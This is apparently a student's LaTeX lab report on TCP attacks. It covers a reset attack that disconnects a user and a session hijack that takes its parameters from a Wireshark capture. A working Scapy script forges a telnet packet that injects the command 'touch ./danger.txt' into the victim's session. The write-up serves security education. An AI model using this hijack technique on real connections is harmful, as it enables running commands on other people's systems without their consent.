 \documentclass[12pt]{article}
\begin{document}
We can now launch the attack.

\begin{figure}[!ht]
  \includegraphics*[scale=.26]{Task2AttackLaunch.png}
\end{figure}

We can see that the attack was launched on a user who was connected to the victum machine. The user was the forced to disconnected.

\section*{Task 3}
For this one we will need to have a user start a session with the victum, once again we will need to get the previous information but for this we will also need 
the ACK. Wiresharking again we see the following information from a packet. We will want to collect this information from the most recent TCP packet sent from the 
user.

\begin{figure}[!ht]
  \includegraphics*[scale=.5]{Task3Packet2.png}
\end{figure}


With that we obtain the following information, a source port of 57328, a sequence of 1960804135, and a ack of 1174207624. For the data we will 
want some command we wish to perform. For this we are going to create a file called danger.txt. This can also be viewed in task3.py\\

\begin{lstlisting}
  #!/usr/bin/env python3
  from scapy.all import *
  
  ip = IP(src="10.9.0.6", dst="10.9.0.5")
  tcp = TCP(sport=57328, dport=23, flags="A", seq=1960804135, 
            ack=1174207624)
  data = "touch ./danger.txt\r"
  pkt = ip/tcp/data
  ls(pkt)
  send(pkt, verbose=0)
\end{lstlisting}
\end{document}
